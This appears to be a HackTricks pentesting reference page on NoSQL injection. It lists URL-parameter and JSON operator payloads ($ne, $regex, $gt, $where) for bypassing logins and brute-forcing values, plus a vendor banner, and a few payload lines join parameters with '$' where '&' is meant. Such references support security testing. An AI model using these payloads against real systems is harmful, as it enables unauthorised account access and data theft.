 # NoSQL injection

![](<../.gitbook/assets/image (9) (1) (2).png>)

\
Use [**Trickest**](https://trickest.com/?utm\_campaign=hacktrics\&utm\_medium=banner\&utm\_source=hacktricks) to easily build and **automate workflows** powered by the world's **most advanced** community tools.\
Get Access Today:

{% embed url="https://trickest.com/?utm_campaign=hacktrics&utm_medium=banner&utm_source=hacktricks" %}

<details><summary><a href="https://cloud.hacktricks.xyz/pentesting-cloud/pentesting-cloud-methodology"><strong>☁️ HackTricks Cloud ☁️</strong></a><a href="https://twitter.com/carlospolopm"><strong>🐦 Twitter 🐦</strong></a> - <a href="https://www.twitch.tv/hacktricks_live/schedule"><strong>🎙️ Twitch 🎙️</strong></a> - <a href="https://www.youtube.com/@hacktricks_LIVE"><strong>🎥 Youtube 🎥</strong></a></summary></details>

NoSQL databases provide looser consistency restrictions than traditional SQL databases. By requiring fewer relational constraints and consistency checks, NoSQL databases often offer performance and scaling benefits. Yet these databases are still potentially vulnerable to injection attacks, even if they aren't using the traditional SQL syntax.

## Exploit

In PHP you can send an Array changing the sent parameter from _parameter=foo_ to _parameter\[arrName]=foo._

The exploits are based in adding an **Operator**:

```bash
username[$ne]=1$password[$ne]=1 #<Not Equals>
username[$regex]=^adm$password[$ne]=1 #Check a <regular expression>, could be used to brute-force a parameter
username[$regex]=.{25}&pass[$ne]=1 #Use the <regex> to find the length of a value
username[$eq]=admin&password[$ne]=1 #<Equals>
username[$ne]=admin&pass[$lt]=s #<Less than>, Brute-force pass[$lt] to find more users
username[$ne]=admin&pass[$gt]=s #<Greater Than>
username[$nin][admin]=admin&username[$nin][test]=test&pass[$ne]=7 #<Matches non of the values of the array> (not test and not admin)
{ $where: "this.credits == this.debits" }#<IF>, can be used to execute code
```

### Basic authentication bypass

**Using not equal ($ne) or greater ($gt)**

```bash
#in URL
username[$ne]=toto&password[$ne]=toto
username[$regex]=.*&password[$regex]=.*
username[$exists]=true&password[$exists]=true

#in JSON
{"username": {"$ne": null}, "password": {"$ne": null} }
{"username": {"$ne": "foo"}, "password": {"$ne": "bar"} }
{"username": {"$gt": undefined}, "password": {"$gt": undefined} }
```
